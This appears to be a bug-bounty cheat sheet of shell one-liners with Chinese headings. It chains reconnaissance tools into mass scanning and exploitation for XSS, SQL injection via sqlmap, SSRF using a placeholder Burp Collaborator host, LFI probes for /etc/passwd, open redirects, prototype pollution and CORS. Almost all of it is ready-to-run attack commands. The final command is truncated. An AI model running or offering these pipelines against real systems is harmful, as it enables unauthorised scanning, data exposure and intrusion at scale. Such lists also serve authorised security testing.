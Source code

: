  #### XSS
	cat targets.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
	cat targets.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
 #### 注入
	httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
 #### SSRF
  	findomain -t http://target.com -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
 #### LFI本地文件包含
  	gau http://vuln.target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
 #### 重定向
  	gau http://vuln.target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
 #### 原型链污染
  	subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"
 #### CORS
  	gau http://vuln.target.com | while read url;do target=$(curl -s -I -H "Origin: https://evvil.com" -X GET $url) | if grep 'https://evvil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
 #### 导出JS
  	echo http://target.com | haktrails subdomains | httpx -silent | getJS --complete | tojson | anew JS1
	assetfinder http://vuln.target.com | waybackurls | grep -E "\.json(?:onp?)?$" | anew 
 #### 截图
  	assetfinder -subs-only http://target.com | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @' 
 #### 存活主机和域名
  	subfinder -d http://vuln.target.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
 #### 从Hackerone导出资产
  	curl -sL https://github.com/arkadiyt/bounty-targets-data/blob/master/data/hackerone_data.json?raw=true | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type]